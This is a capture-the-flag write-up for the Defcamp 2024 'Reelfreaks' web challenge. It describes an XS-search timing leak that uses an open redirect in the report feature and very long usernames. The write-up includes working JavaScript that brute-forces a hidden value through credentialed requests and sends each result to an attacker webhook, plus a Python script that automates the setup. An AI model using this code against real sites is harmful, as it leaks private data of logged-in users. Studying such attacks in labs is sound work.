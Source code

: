 ```yaml
---
title: "Reelfreaks D-CTF 2024"
date: 2024-09-30 14:09:30 +0300
categories: [ Web exploitation, CTF Writeup]
tags: [XS-Search,Web]
media_subpath: /assets/img/
---
```

# Reelfreaks

## Analysis 
Reelfreaks is a web challenge for Defcamp CTF 2024
The Challenge includes source for website that has different movie titles and rad dancing gifs, with a report functionality
![Pasted image 20240928111811](Pasted image 20240928111811.png)
Checking the database we can see that the movie with id 30 has the flag as it's name, but it's banned so most functionality is disabled for it and only the admin can see it in it's watchlist
![Pasted image 20240928111941](Pasted image 20240928111941.png)
but any user can add it to their watchlist just by sending a request with it's id to the add_movie endpoint 
![Pasted image 20240928113023](Pasted image 20240928113023.png)
This doesn't help us yet because we can't look at it in any way from users with a "regular_freak" role.

The report functionality is interesting because the app doesn't check if the host of the url is the one it's expecting:
![Pasted image 20240928113344](Pasted image 20240928113344.png)
Therefore we can use something like an @ symbol and our on domain to redirect the request to an outside domain.

Because of the lack of any XSS we could find we had to find some other way to extract the flag which is the name of our banned movie.

Looking at the source for the /watchlist endpoint we can see that the search shows movies like what you send
![Pasted image 20240928114436](Pasted image 20240928114436.png)
this screams XS-search, but how? [Explanation]( https://xsleaks.dev/docs/attacks/xs-search/)

Looking at the database models we see that users can have really long usernames
![Pasted image 20240928114550](Pasted image 20240928114550.png)
So we can make usernames that are really long and add the banned movie to their watchlist and that should slow the search down when the admin searches for it in the watchlist area, when searching for a movie which doesn't exist there should be no slowdown, therefore our exploit would look like:

1. Register users with really long usernames log them in and add the flag movie to their watchlist 
2. Make a report to the admin that redirects it to your own domain
3. Make the admin do requests from your site to the watchlist and bruteforce the flag by measuring how long it takes the page to load depending what you search adding another character every time you get a hit (page that takes really long to load)
4. ???
5. profit

## Exploit
My teammate wrote the exploit and got it to work, I later made some changes to make it 100% reliable
first we make a webhook to host the XS-search script call it webhook 1
```html
<html>
<head>
  <title>Title of the document</title>
  <script>
    //var printable = "0123456789abcdefghijklmnopqrstuvwxyz!\"#$\'()*+,-./:;<=>?@[\\]^_`{|}~";
    var printable = "0123456789abcdefghijklmnopqrstuvwxyz-}_";
    var xmlHttp = new XMLHttpRequest();
    var progress = "DCTF{";
    while(true){
      for (let i = 0; i < printable.length; i++) {
        var startTime = performance.now();
        try{
          xmlHttp.open("GET", "https://127.0.0.1:5000/watchlist?q="+progress+printable[i], false ); // false for synchronous request
          xmlHttp.withCredentials = true;
          xmlHttp.send( null );
        }catch(error){
        }
        var endTime = performance.now();
        if ((endTime-startTime) > 200){
          progress += printable[i];
          try{
          xmlHttp.open("GET", "WEBHOOK2?t="+progress, false ); // false for synchronous request
          xmlHttp.send( null );
          }catch(error){
          }
          break;
        }
      };
    }
  </script>
</head>

<body>
</body>

</html>
```
Webhook2 is where we get sent the result

Then we run the python script to create the users and send the initial report which redirects to webhook 1
```python
import requests

url = "https://ChallengeUrl"

webhook = "Webhook1" # No http/s 

  

register_url = f"{url}/register"

login_url = f"{url}/login"

add_movie_url = f"{url}/add_movie"

report_url = f"{url}/report"

  
  
  

for i in ["a", "b", "c", "d", "e","f", "g", "h", "q","w"]:

    with requests.Session() as s:

        s.post(register_url, data= {'username': i*5000000, 'password': '1234'}, verify = False)

        s.post(login_url, data={'username': i*5000000, 'password': '1234'}, verify = False)

        s.post(add_movie_url, data={'movie_id':30}, verify=False)

  

s = requests.Session()

s.post(register_url, data= {'username': "1234", 'password': '1234'}, verify = False)

s.post(login_url, data={'username': '1234', 'password': '1234'}, verify = False)

x = s.post(report_url, data = {'movie': f"@{webhook}"}, verify = False)

print(x.text)
```

![Pasted image 20240929150126](Pasted image 20240929150126.png)
And we get the flag: `DCTF{l3ak_ev3ry_d4y_0f_ev3ry_w33k}`
